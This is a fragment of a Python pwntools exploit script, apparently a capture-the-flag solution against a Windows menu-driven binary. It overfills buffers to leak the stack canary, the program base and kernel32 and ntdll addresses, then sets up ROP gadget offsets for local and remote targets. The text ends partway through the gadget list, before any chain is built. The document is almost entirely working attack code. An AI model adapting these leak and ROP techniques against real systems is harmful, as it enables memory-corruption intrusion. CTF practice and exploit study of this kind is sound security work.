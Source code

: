 ```python=
from pwn import *
import time
import sys


def add(ind, data):
    assert len(data) <= 0x100
    proc.sendlineafter(b':', b'1')
    proc.sendlineafter(b':', f'{ind}'.encode())
    proc.sendafter(b':', data)


def show(ind):
    proc.sendlineafter(b':', b'2')
    proc.sendlineafter(b':', f'{ind}'.encode())
    return proc.recvuntil(b'*********')


def exploit():
    for i in range(5):
        proc.sendlineafter(b':', b'1')
        proc.sendafter(b':', b'A' * 0x100)
    add(5, b'B' * 8)
    leak = show(5).replace(b'\r\n', b'\n')
    print(leak)
    canary = leak[0x50:0x58]
    print(canary)
    canary = u64(canary)
    prog_base = leak[0x60:0x68]
    print(prog_base)
    prog_base = u64(prog_base)
    prog_base -= 0x1734
    kernel32 = leak[0xa0:0xa8]
    print(kernel32)
    kernel32 = u64(kernel32)
    ntdll = leak[0xd0:0xd8]
    print(ntdll)
    ntdll = u64(ntdll)
    if len(sys.argv) <= 1:
        # local
        ntdll -= 0x6a271
        kernel32 -= 0x17974
        # local
        pop_rax = kernel32 + 0x63b6
        leave_and_ac_ret = kernel32 + 0x5a49d
        jmp_ptr_rbx = kernel32 + 0x36035
        pop_rcx = ntdll + 0x9217b
        pop_rdx_r11 = ntdll + 0x8fb37
        pop_r89ab = ntdll + 0x8fb32
        xchg_eax_ecx = ntdll + 0x228ef
        getstdhandle = kernel32 + 0x1c890
        readfile = kernel32 + 0x22680
        pop_rsp = ntdll + 0x30f2
        createfile = kernel32 + 0x222F0
    else:
        # remote
        ntdll -= 0x6ced1
        kernel32 -= 0x17bd4
        # remote
        pop_rax = kernel32 + 0x6e76
        leave_and_ac_ret = kernel32 + 0x59dfd
        jmp_ptr_rbx = kernel32 + 0x3920b
        pop_rcx = ntdll + 0x21597
```